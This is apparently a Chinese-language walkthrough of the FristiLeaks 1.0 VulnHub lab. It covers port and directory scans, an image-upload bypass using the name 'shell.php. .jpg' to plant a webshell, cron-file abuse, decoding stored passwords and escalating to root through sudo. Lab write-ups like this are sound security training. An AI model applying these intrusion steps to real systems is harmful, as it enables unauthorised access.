


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 01:48 EDT
Nmap scan report for 192.168.10.14
Host is up (0.0010s latency).
Not shown: 65514 filtered tcp ports (no-response), 20 filtered tcp ports (host-unreach)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 15.44 seconds

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80 192.168.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 01:49 EDT
Nmap scan report for 192.168.10.14
Host is up (0.00097s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-methods:
|_  Potentially risky methods: TRACE
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|media device|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (97%), Synology DiskStation Manager 5.X (91%), LG embedded (88%), Tandberg embedded (88%), Drobo embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/a:synology:diskstation_manager:5.2 cpe:/h:drobo:5n
Aggressive OS guesses: Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 3.13 (97%), Linux 2.6.39 (94%), Linux 2.6.32 - 3.5 (92%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%), Linux 2.6.32 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.9 (91%), Linux 3.4 - 3.10 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```
端口给到的信息不多
就80端口吧

## web渗透


首页如图，感觉下面那行小字的人名可能有些用
### 目录扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.14
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/beer                 (Status: 301) [Size: 234] [--> http://192.168.10.14/beer/]
/cgi-bin/             (Status: 403) [Size: 210]
/images               (Status: 301) [Size: 236] [--> http://192.168.10.14/images/]
/robots.txt           (Status: 200) [Size: 62]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
看下robots.txt

这三个页面都是一样的

查看源代码都是一样的，图片用的是同一张
接下来用了很多枚举方法啊
udp端口扫描，nikto扫描，图片隐写，目录扫描
都不尽人意
结果是一个隐藏目录

http://192.168.10.14/fristi/
这。。
先看下源代码

上面这段就是页面图片的base64
下面这段base64肯定是有信息的

解出来后发现是png，内容如上
keKkeKKeKKeKkEkkEk
这是密码吗还是账号？

再次检查源代码，发现原来开头就告诉了管理员账号
直接登录呗

顺利来到一个文件上传功能
只允许上传图片
那么改改后缀，改改MIME试试

试了几个
最后发现shell.php. .jpg能绕
直接连蚁剑

拿到webshell
那就在蚁剑先看一会儿吧，还挺方便

往上翻可以发现提示文件

来到eezeepz家目录，好像是有个计划任务
弹shell吧

## 提权

他说每分钟执行一次runthis
本来想着能不能弹个用户shell
他说不能用
可能没有bash？
又试了下能不能用chmod直接改/etc/passwd的权限为777
不可行，权限不够
看下家目录

一共就三个人
admin和fristigod，那么就改他们的的家目录权限
 
```bash
bash-4.1$ echo '/home/admin/chmod 777 /home/admin' >runthis
bash-4.1$ ls -la /home/admin
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19  2015 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rw-r--r--. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rw-r--r--. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rw-r--r--. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxr-xr-x  1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x  1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r--  1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r--  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r--  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x  1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x  1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x  1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x  1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
bash-4.1$ cd /home/admin
bash-4.1$ cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
bash-4.1$ cat  cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
bash-4.1$ cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```
得到密文和加密方法
去解密

这个是admin的密码

还有个Fristgod的密码
登fristigod用户
运气比较好
可以提权的用户就是fristigod用户
```bash
bash-4.1$ sudo -l
[sudo] password for fristigod:
Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
bash-4.1$ sudo ^C
bash-4.1$ sudo /var/fristigod/.secret_admin_stuff/doCom
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom' as root on localhost.localdomain.
bash-4.1$ sudo -U root /var/fristigod/.secret_admin_stuff/doCom
sudo: the `-U' option may only be used with the `-l' option
usage: sudo [-D level] -h | -K | -k | -V
usage: sudo -v [-AknS] [-D level] [-g groupname|#gid] [-p prompt] [-u user
            name|#uid]
usage: sudo -l[l] [-AknS] [-D level] [-g groupname|#gid] [-p prompt] [-U user
            name] [-u user name|#uid] [-g groupname|#gid] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C fd] [-D level] [-g
            groupname|#gid] [-p prompt] [-u user name|#uid] [-g groupname|#gid]
            [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C fd] [-D level] [-g
            groupname|#gid] [-p prompt] [-u user name|#uid] file ...
bash-4.1$ sudo -u root /var/fristigod/.secret_admin_stuff/doCom
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom' as root on localhost.localdomain.
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
Usage: ./program_name terminal_command 
bash-4.1$ sudo -u fristi ./doCom bash
bash-4.1# whoami
root
bash-4.1# ls /root
fristileaks_secrets.txt
bash-4.1# cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1


bash-4.1# ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:A5:A6:76
          inet addr:192.168.10.14  Bcast:192.168.10.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fea5:a676/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2271266 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1534723 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:189493718 (180.7 MiB)  TX bytes:231816764 (221.0 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:3216 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3216 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:347730 (339.5 KiB)  TX bytes:347730 (339.5 KiB)

bash-4.1#

```
这里也没想到直接就可以让该用户执行root命令
bash就提权到root了